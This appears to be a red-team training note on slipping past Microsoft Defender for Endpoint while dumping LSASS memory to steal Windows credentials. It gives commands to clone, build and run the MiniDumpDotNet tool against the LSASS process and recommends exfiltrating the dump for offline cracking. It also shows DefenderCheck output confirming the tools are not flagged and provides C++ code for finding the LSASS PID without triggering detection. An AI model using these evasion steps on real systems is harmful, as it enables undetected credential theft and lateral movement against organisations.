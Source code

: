 
Endpoint Detection and Response (EDR) systems protect individual devices (endpoints) by continuously monitoring for and responding to security threats.

- EDR includes features for **threat detection**, **incident response**, **investigation**, and **forensics**, making it a vital component of modern cybersecurity strategies.
- Most EDRs **correlate activity** to gain broader telemetry and improve detections.
- Even if all performed activity is undetected by traditional antivirus (AV), EDRs can still correlate those actions to identify **attacker tactics, techniques, and procedures (TTPs)**.
### LSASS Dump
While performing LSASS credential dumping, direct interaction/extraction of data from the LSASS process (Ex: Mimikatz `sekurlsa::logonpasswords`) is detected by MDE

**A more OPSEC friendly way is by performing a dump of the LSASS process in a covert way and then exfiltrating it to later analyze offline.** However, standard techniques to create LSASS dumps (Ex: `taskmanager` → create dump file) are detected and blocked.


Most tools create an LSASS dump by:

1. Gaining a handle to the **LSASS process**.  
2. Creating a minidump using the `MiniDumpWriteDump` WinAPI function implemented in **dbghelp.dll** / **dbgcore.dll**.  
3. Writing the **dump file** to disk.

- These 3 actions are heavily **monitored by EDRs** and are usually **detected and blocked**.
- To circumvent these detections, we can avoid using tools that implement the `MiniDumpWriteDump` function and perform the LSASS dump in a **different way**.

### MiniDumpDotNet

[MiniDumpDotNet](https://github.com/WhiteOakSecurity/MiniDumpDotNet) is a tool that implements a **custom, rewritten version** of the `MiniDumpWriteDump` Windows API function.

- In this tool, the `MiniDumpWriteDump` function is **reversed**, and a **custom implementation** is created based on a **Beacon Object File (BOF) adaptation** and the **ReactOS source code**.

Dump the LSASS process with minidumpdotnet using the following syntax. Note that
we need Process ID of LSASS process:
```powershell
.\minidumpdotnet.exe <LSASS PID> <minidump file>
```

##### Building minidumpdotnet

- Clone/Download the project:
  ```bash
  git clone https://github.com/WhiteOakSecurity/MiniDumpDotNet.git
  ```

> **Note**: This project was implemented with Visual Studio 2015, but should be supported by any Visual Studio compiler that can build VS C++ CLR code.

- **Building the solution will generate both a binary executable, as well as a .NET class library.**

- **Build the project:** *Build -> Build Solution*

Check if it triggers alerts
```powershell
C:\AD\Tools\DefenderCheck> .\DefenderCheck.exe C:\AD\Tools\minidumpdotnet.exe
[+] No threat found in submitted file!
```

#### Finding LSASS PID using Custom APIs
- Using commands like `tasklist /v` to enumerate the LSASS PID is detected by MDE.
- To avoid this, we can make use of standard WINAPIs to find the LSASS PID, which is OPSEC-safe.
- In case of RDP access, tools like Task Manager (or other less suspicious alternatives) could also be used for finding the LSASS PID.

Code snippet of a custom function called `FindPID` in C++ to dynamically enumerate the LSASS PID:

  ```cpp
  // Find PID of a process by name
  int FindPID(const char* procname)
  {
      int pid = 0;
      PROCESSENTRY32 proc = {};
      proc.dwSize = sizeof(PROCESSENTRY32);
      HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
      bool bProc = Process32First(snapshot, &proc);
      while (bProc)
      {
          if (strcmp(procname, proc.szExeFile) == 0)
          {
              pid = proc.th32ProcessID;
              break;
          }
          bProc = Process32Next(snapshot, &proc);
      }
      return pid;
  }
  ```

Using the FindPID code in a standalone executable is not detected by Defender AV
or MDE
```powershell
C:\AD\Tools\DefenderCheck> .\DefenderCheck.exe C:\AD\Tools\FindLSASSPID.exe
[+] No threat found in submitted file!
```
